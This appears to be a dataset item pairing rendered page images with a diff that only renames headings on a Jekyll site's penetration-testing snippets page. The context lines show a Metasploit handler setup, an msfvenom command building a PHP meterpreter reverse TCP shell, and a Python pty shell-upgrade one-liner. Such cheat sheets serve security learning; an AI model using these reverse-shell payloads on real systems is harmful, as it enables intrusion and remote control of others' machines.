

Before and after one commit to a56z/a56z.github.io, a Jekyll site: the page built from snippets.md, in a window 1280 px wide. Shown: the top 720 px of the page, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; Markdown is read by kramdown in place of the engine named in the settings.

````diff
--- a/snippets.md
+++ b/snippets.md
@@ -5,7 +5,7 @@ permalink: /snippets
 ---
 
 ## Metasploit
-#### Handlers
+#### ./ Handlers
 ```bash
 msf6 > use exploit/multi/handler
 msf6 > set PAYLOAD <Payload name>
@@ -19,7 +19,7 @@ Once the required values are completed the following command will execute your h
 <br/>
 <br/>
 
-#### Scripting Payloads
+#### ./ Scripting Payloads
 ###### PHP
 ```bash
 msfvenom -p php/meterpreter_reverse_tcp lhost=<your-IP-address> lport=<your-port-address> -o shell.php
@@ -28,7 +28,7 @@ msfvenom -p php/meterpreter_reverse_tcp lhost=<your-IP-address> lport=<your-port
 <br/>
 
 ## Python
-#### Spawn a terminal
+#### ./ Spawn a terminal
 
 ```python
 python -c 'import pty;pty.spawn("/bin/bash")';
````
